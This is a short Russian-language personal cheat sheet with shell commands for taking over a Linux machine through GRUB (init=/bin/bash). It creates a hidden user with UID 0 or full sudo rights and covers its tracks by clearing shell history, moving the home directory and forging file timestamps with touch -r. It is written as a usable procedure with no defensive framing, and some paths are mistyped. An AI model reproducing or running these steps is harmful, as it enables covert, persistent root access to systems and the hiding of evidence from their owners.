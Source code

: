 В грабе F2 F2
В конце строки пишем init=/bin/bash (По умолчанию запускается линукс, подменяем на bash)
mount -o remount, rw / (Монтируем корневую систему (по умолчанию на чтение) на чтение и запись)
HISTFILE="" (убираем логи)
Делаем резервную копию
	mktemp -d (Временная дирректория)
	 cd  ...
	 cp -p /etc/passwd .
	 cp -p /etc/shadow .
	 cp -p /etc/sudoers .
	 cp -p /etc/group .
	 cp -p /etc/gshadow .
Создаём юзера
/usr/sbin/useradd <имя_польователя>
passwd <имя_польователя>
password
password

(ls /home проверить пользователя)

mv /home/<имя_польователя> /tmp

nano /ets/passwd
меняем строку нашего пользователя
...x:0:0...

touch -r passwd /etc/passwd
touch -r shadow /etc/shadow
touch -r gshadow /etc/ghsdow
touch -r group /etc/group
touch -r sudoers /etc/sudoers
touch -r passwd /etc/home
touch -r passwd /home

ls -lat /home

ls /etc | grep home

rm /etc/home
ls /etc | grep home
whereis reboot

.../reboot -f

В консоле

HISTFILE=""
ls /tmp
rm -r /tmp/tmp....

su <имя_польщователя>
<пароль>



------------------Второй способ------------------
1. В GRUB выбрать способ загрузки (advanced options)
2. e - редактировать
3. linux ... quite splash добавляем init=/bin/bash
4. Ctrl+x / F10 - загрузиться
5. Должен появиться командная строка с #
6. mount -o remount,rw /    (чтение / запись)
7. HISTFILE=""    (чистим историю)
8. cp -p /etc/passwd /etc/passwd_backup              |
	 cp -p /etc/shadow /etc/shadow_backup            | резервные копии
	 cp -p /etc/sudoers /etc/sudoers_backup           |
	 cp -p /etc/group /etc/gruoup_backup                |    -p preserve attributes
	 cp -p /etc/gshadow /etc/gshadow_backup       |
9. adduser <ник>
10. passwd <ник>
11. visudo
	1. <ник> ALL=(ALL:ALL) ALL
12. mount -o remount,ro /
13. sync
14. Ctrl+Alt+PrtScreen+R   стандартный режим
15. Ctrl+Alt+PrtScreen+E   всем процессам
16. Ctrl+Alt+PrtScreen+I    убить
17. Ctrl+Alt+PrtScreen+S   синхронизировать
18. Ctrl+Alt+PrtScreen+U   перемонтировать на режим чтения
19. Ctrl+Alt+PrtScreen+B   перезагрузить
[[Полезные записки]]